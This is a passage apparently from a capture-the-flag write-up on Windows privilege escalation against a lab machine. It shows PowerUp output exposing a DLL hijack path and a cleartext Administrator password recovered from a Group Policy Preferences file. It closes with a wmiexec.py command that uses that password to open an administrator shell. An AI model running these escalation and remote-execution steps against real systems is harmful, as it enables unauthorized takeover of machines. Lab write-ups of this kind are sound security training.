 ```cmd
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```

Aside from the administrator password just being, there... in the PowerUp from a GPP file there are also some other avenues to explore like token impersonation or Potato attacks because of SeImpersonate. I tried the reported service abuse but never got it working. The DLL hijacking will not work unless we can start and stop the service.

wmiexec.py was what worked to ultimately give us a administrator shell.

```bash
wmiexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```
